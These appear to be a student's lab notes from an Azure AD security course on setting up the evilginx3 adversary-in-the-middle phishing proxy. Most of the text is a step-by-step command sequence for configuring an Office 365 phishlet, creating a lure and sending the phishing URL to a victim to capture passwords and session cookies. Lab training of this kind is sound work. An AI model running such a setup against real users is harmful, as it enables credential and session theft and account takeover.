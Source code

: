 
- we can use `evilginnx3` for phising attacks. 
- evilginx3 acts as a rely/man-in-middle attack between legit web pages and a target user. the user always interacts with the legit website and evilgnix captures usernames, passwords and authentication cookies. 
- it uses phishlets that are configuration files for specific target hosts, filter, structure, of authentication cookies and credentials.

Evilginx3 is setup already in VMs

Start evilginx3
`evilginx3 -p C:\AzAD\Tools\evilginx-3.3.0\phishlets -developer`

Configure Domain 
` config domian student<x>.corp`

Set IP for evilginx server: 
` config ipv4 external 172.16.x.x`

Use template for Office 365
` phishlets hostname o365 student<x>.corp`

Verify the DNS Server:
`phishlets get-hosts 0365`

Enable phishlets 
`phishlets enable o365`

Create the Phishing URL: (Tied to an ID)
`lures create 0365`

Get Phishing URL
`lures get-url <ID>`

Share the URL with the victim(for lab send an emnail using your registered email)


